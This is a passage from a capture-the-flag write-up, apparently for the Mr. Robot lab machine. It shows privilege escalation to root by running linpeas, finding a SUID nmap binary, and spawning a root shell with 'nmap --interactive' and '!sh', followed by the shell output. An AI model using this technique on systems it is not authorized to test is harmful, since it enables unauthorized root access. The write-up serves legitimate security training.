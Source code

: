 ### Road to `root`

I executed [linpeas.sh](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) to look for possible ways to get `root`. 

Surprisingly, there is `nmap` among the SUID binaries: 

![nmap SUID](img/nmap.png)

We can check on [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/) how we can perform a privesc:

![nmap interactive shell](img/nmap-shell.png)

And we are root:

```bash
robot@linux:/tmp$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cd /root
cd /root
# ls -la
ls -la
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
```